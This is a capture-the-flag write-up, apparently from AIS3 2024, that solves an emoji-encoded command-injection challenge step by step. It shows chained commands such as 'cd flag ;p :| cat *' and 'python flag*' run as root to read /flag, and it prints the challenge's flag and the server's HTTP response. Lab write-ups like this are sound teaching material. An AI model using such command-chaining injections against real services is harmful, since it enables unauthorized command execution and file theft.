 #### 1. 🆔= Command: id
![image](https://hackmd.io/_uploads/SJDSCDxNA.png)
> uid=0(root) gid=0(root) groups=0(root)

#### 2. 🐱 🚩= Command: cat flag
![image](https://hackmd.io/_uploads/SJn3aDx4R.png)
> cat: flag: Is a directory

#### Note 🐍 ➖Ⓜ️ 🚩= Command: python -m flag
![image](https://hackmd.io/_uploads/B1T76wgEA.png)
> /usr/local/bin/python: No module named flag.__ main__; 'flag' is a package and cannot be directly executed

#### 3. 💿 🚩 😜 = Command: cd flag ;p
![image](https://hackmd.io/_uploads/B1hvZOgN0.png)
> /bin/sh: 1: p: not found
> 成功

#### 4. 💿 🚩 😜 😑 🆔 = Command: cd flag ;p :| id
>uid=0(root) gid=0(root) groups=0(root)

> [!TIP]
> "|" 可以bypass | 前的指令，多出來的 p :

![image](https://hackmd.io/_uploads/BJUhJKxN0.png)
#### 5. 💿 🚩 😜 😑 🐱 ⭐ = Command: cd flag ;p :| cat *
![image](https://hackmd.io/_uploads/H1W4WtgN0.png)
> #flag-printer.py
print(open('/flag','r').read())

> 有線索了。
> 執行 flag-printer.py

#### 6. 💿 🚩 😜 😑 🐍 🚩⭐ = Command: cd flag ;p :| python flag* 
![image](https://hackmd.io/_uploads/BJ7FGteVA.png)
```
AIS3{🫵🪡🉐🤙🤙🤙👉👉🚩👈👈}
```
> 詭異了?!

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sun, 26 May 2024 09:37:08 GMT
Content-Type: application/json
Content-Length: 195
Connection: close

{"command":"cd flag ;p :| python flag*","result":"AIS3{\ud83e\udef5\ud83e\udea1\ud83c\ude50\ud83e\udd19\ud83e\udd19\ud83e\udd19\ud83d\udc49\ud83d\udc49\ud83d\udea9\ud83d\udc48\ud83d\udc48}\n\n"}

```
>想多了\
>直接複製貼上就可
